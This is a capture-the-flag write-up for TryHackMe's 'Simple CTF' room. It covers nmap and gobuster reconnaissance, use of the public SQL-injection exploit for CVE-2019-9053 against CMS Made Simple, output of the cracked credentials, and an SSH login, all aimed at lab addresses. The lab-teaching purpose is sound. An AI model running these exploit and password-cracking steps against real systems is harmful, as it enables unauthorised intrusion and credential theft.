 # [Simple CTF](https://tryhackme.com/room/easyctf)

> Beginner level ctf

## Scanning

We will start a nmap scan

```
nmap -A -T4 10.10.232.89
```

![image](https://user-images.githubusercontent.com/90561566/182623084-843a068a-daf3-4eed-8107-583b7fa3ed8b.png)

We found 2 services running below port 1000, namely FTP (21) and HTTP (80)

We can see that ssh is running on the higher port (2222)

## Enumeration

I just view the default web page and see nothing, so let's use gobuster to find something

```
gobuster dir -u http://10.10.232.89/ -w /usr/share/wordlists/dirb/common.txt -t 30
```

![image](https://user-images.githubusercontent.com/90561566/182626562-6e7b1b36-e22b-4756-8c83-979d6b05fb34.png)

let's see /robots.txt file

![image](https://user-images.githubusercontent.com/90561566/182626985-f3fcb05b-ba8f-42f4-955c-bb6f12c5c6dc.png)

and /simple page

![image](https://user-images.githubusercontent.com/90561566/182627264-f181bf7b-db22-462e-8875-e866f6b34307.png)

at the end of page, i see its version

![image](https://user-images.githubusercontent.com/90561566/182627984-c7973e00-78cb-4207-beb5-1a7b89543498.png)

```
searchsploit cms made simple 2.2.8
```

![image](https://user-images.githubusercontent.com/90561566/182628708-3a49d796-a2cb-43a8-8f2f-30d0483c055e.png)

We can download the exploit using `searchsploit -m 46635.py`

![image](https://user-images.githubusercontent.com/90561566/182629731-a154a783-6f13-4761-9728-05ca4113bc12.png)

The CVE is CVE-2019-9053 and vulnerability type is SQLi

## Exploitation

On the script, i see some python library to install with pip and 3 parameters to use

![image](https://user-images.githubusercontent.com/90561566/182630976-ebbdf050-d62c-4aeb-8365-8d75ffe25159.png)

```
python2.7 46635.py -u http://10.10.206.254/simple --crack -w /usr/share/seclists/Passwords/Common-Credentials/best110.txt
```

wait a while, you will find the password

```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

Now try to connect ssh server with "mitch" user and a "secret" password

```
ssh mitch@10.10.206.254 -p 2222
```

and we found the user.txt flag

![image](https://user-images.githubusercontent.com/90561566/182776632-dc1958c4-d406-4d1f-8279-b481900253d5.png)








